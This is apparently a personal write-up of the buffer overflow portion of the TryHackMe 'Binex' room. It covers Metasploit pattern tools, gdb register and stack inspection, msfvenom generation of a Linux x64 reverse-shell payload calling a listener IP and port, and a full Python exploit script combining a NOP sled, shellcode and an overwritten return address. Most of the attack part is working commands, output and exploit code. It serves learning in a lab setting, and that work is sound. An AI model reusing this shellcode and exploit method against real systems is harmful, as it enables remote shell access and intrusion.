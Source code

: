 # Buffer Overflow theory

Based on experiences from TryHackMe room https://tryhackme.com/room/binex, I need to get better at this, so here is a mini writeup for that portion of the room.

Instructions below are based on a executable that reads a string then overflows, named `bof`. The methodology here is largely extracted from one of the writeups for Binex: https://github.com/Syp1ng/Writeups/blob/master/THM/Binex.pdf. The author in turn sourced some knowledge from here: https://medium.com/@buff3r/basic-buffer-overflow-on-64-bit-architecture-3fb74bab3558

1. First, generate a test string using metasploit's pattern_create.rb: 
  
    You can find the location of the script using `find / -name pattern_create.rb`. Here are two locations I've seen:

    - `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 1000`
    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000`
  
2. Open the exe with gdb. E.g. `gdb ./bof`. Breakpoints are not necessary, but as a quick primer if you do want them:

    - `info functions` shows all functions
    - `disas <function>` renders the assembly for a function, including the mem addresses and their offsets
    - `b * <function name>+<offset>` sets a breakpoint. E.g. `b * foo+39` will set a breakpoint in the function foo at offset 39
    - to run the code up to a break point (or just generally) use `r`. You can also pipe data into `r` if you like, or pass args to it.

3. Run til it asks for data, then paste in the test string. It should run and segfault after this.

4. Use `info registers` to see the register contents. Hopefully you should see something like this:

      ```
      (gdb) info registers
      rax            0x0      0
      rbx            0x3e9    1001
      rcx            0x0      0
      rdx            0x0      0
      rsi            0x555555554956   93824992233814
      rdi            0x7ffff7dd0760   140737351845728
      rbp            0x4134754133754132       0x4134754133754132
      rsp            0x7fffffffe228   0x7fffffffe228
      r8             0xffffffffffffffed       -19
      r9             0x25e    606
      r10            0x5555557564cb   93824994337995
      r11            0x555555554956   93824992233814
      r12            0x3e9    1001
      r13            0x7fffffffe320   140737488347936
      ```

      That value for rbp is what is needed: `4134754133754132` Take this, and run it against another metasploit script: pattern_offset. It should be just next to pattern_create:

      ```
      root@ip-10-10-167-14:~# /opt/metasploit-framework-5101/tools/exploit/pattern_offset.rb -q 4134754133754132
      [*] Exact match at offset 608
      ```
    
5. Before leaving gdb, also take a look at the stack via `x/100x $rsp-700`. Should see something like this:

    ```
    (gdb) x/100x $rsp-700
    0x7fffffffdf6c: 0x00007fff      0x00000012      0x00000000      0xf7dd0760
    0x7fffffffdf7c: 0x00007fff      0x55554934      0x00005555      0xf7a64b62
    0x7fffffffdf8c: 0x00007fff      0xf79e90e8      0x00007fff      0x000003e9
    0x7fffffffdf9c: 0x00000000      0xffffe220      0x00007fff      0x000003e9
    0x7fffffffdfac: 0x00000000      0xffffe320      0x00007fff      0x55554848
    0x7fffffffdfbc: 0x00005555      0x41306141      0x61413161      0x33614132
    0x7fffffffdfcc: 0x41346141      0x61413561      0x37614136      0x41386141
    0x7fffffffdfdc: 0x62413961      0x31624130      0x41326241      0x62413362
    0x7fffffffdfec: 0x35624134      0x41366241      0x62413762      0x39624138
    0x7fffffffdffc: 0x41306341      0x63413163      0x33634132      0x41346341
    0x7fffffffe00c: 0x63413563      0x37634136      0x41386341      0x64413963
    0x7fffffffe01c: 0x31644130      0x41326441      0x64413364      0x35644134
    0x7fffffffe02c: 0x41366441      0x64413764      0x39644138      0x41306541
    0x7fffffffe03c: 0x65413165      0x33654132      0x41346541      0x65413565
    0x7fffffffe04c: 0x37654136      0x41386541      0x66413965      0x31664130
    0x7fffffffe05c: 0x41326641      0x66413366      0x35664134      0x41366641
    0x7fffffffe06c: 0x66413766      0x39664138      0x41306741      0x67413167
    0x7fffffffe07c: 0x33674132      0x41346741      0x67413567      0x37674136
    0x7fffffffe08c: 0x41386741      0x68413967      0x31684130      0x41326841
    0x7fffffffe09c: 0x68413368      0x35684134      0x41366841      0x68413768
    0x7fffffffe0ac: 0x39684138      0x41306941      0x69413169      0x33694132
    0x7fffffffe0bc: 0x41346941      0x69413569      0x37694136      0x41386941
    0x7fffffffe0cc: 0x6a413969      0x316a4130      0x41326a41      0x6a41336a
    0x7fffffffe0dc: 0x356a4134      0x41366a41      0x6a41376a      0x396a4138
    0x7fffffffe0ec: 0x41306b41      0x6b41316b      0x336b4132      0x41346b41
    ```

    Here you can see the test string starting near the top. Pick one of those side addresses further down - this address might work or not, you might need to do some trial and error so keep this output handy. E.g. from the above I tried two, the first failing, before `0x7fffffffe07c` worked for me.
    
6. Get some shell code. One way to make this, which works when you have a lot of space (in binex I had around 1000 bytes, but thats rare) is to use msfvenom. Here I created a reverse shell caller: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.167.14 LPORT=4444 -b '\x00' -f python`. This prints out some python code:

    ```
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    Found 4 compatible encoders
    Attempting to encode payload with 1 iterations of generic/none
    generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
    Attempting to encode payload with 1 iterations of x64/xor
    x64/xor succeeded with size 119 (iteration=0)
    x64/xor chosen with final size 119
    Payload size: 119 bytes
    Final size of python file: 597 bytes
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
    buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
    buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
    buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
    buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
    buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
    buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
    buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
    buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
    buf += b"\x34\x41"
    ```

7. Compile an exploit string. I created a python file I could invoke against the binary to exploit:

    ```python
    from struct import pack

    nop = '\x90'

    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
    buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
    buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
    buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
    buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
    buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
    buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
    buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
    buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
    buf += b"\x34\x41"

    calculated_offset = 608
    rip = 0x7fffffffe07c
    payload_len = calculated_offset + 8
    nop_payload = 300*nop
    shell_len = len(buf)
    nop_len = len(nop_payload)
    padding = 'A'*(payload_len - shell_len - nop_len)
    payload = nop_payload + buf + padding + pack("<Q", rip)

    print(payload)
    ```

10. Finally, all this in hand (and after setting up the shell listener!), run against the binary to exploit: `./bof < <(python exploit.py)`
